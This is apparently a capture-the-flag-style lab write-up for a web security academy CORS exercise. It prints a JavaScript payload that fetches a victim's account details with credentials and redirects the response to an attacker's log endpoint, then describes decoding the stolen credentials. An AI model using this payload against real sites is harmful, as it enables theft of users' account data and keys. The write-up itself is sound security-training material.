 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	The script does the following:
		// Create an XMLHttpRequest instance.   
		// Set the event handler that will be called when the response is received.   
		// opening a GET request to the URL to retrieve account details   
		// Sending cookies and HTTP authentication information in the request   
		// Sending the request   
		// Event handler function called when a response is received from the server   
		// forwarding the current page to a log file with the received response text as parameter   
	
2.After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
